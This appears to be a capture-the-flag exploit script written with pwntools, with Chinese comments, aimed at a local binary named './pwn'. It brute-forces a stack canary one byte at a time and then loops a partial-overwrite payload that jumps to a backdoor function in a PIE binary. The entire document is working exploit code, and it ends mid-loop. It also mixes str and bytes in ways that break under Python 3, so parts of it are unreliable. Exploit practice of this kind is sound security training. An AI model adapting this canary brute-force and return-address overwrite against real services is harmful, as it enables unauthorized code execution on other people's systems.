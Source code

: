 ### exp

```plain
#coding=utf8

import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')

p.recvuntil('welcome\n')
canary = '\x00'
for k in range(7):
    for i in range(256):
        print("正在爆破 Canary 的第" + str(k+1) + "位")
        print("当前的字符为" + chr(i))
        payload=b'a'*0x68 + canary + chr(i)
        print("当前的字符为" + payload)
        p.send(b'a'*0x68 + canary +chr(i))
        data = p.recvuntil("welcome\n")
        if 'stack' in data:
            continue
        else:
            print(str(i + 1) + 'place')
            canary += p8(i)
            print(canary)
            break

backdoor = 0x0231
while True:
    for i in range(16):
        p.send(b'a'*0x68+canary*2+p16(backdoor))
# offset + canary + rbp + pie_backdoor
        a = p.recvuntil(b'welcome\n', timeout = 0.5)
# timeout 最好还是加上
```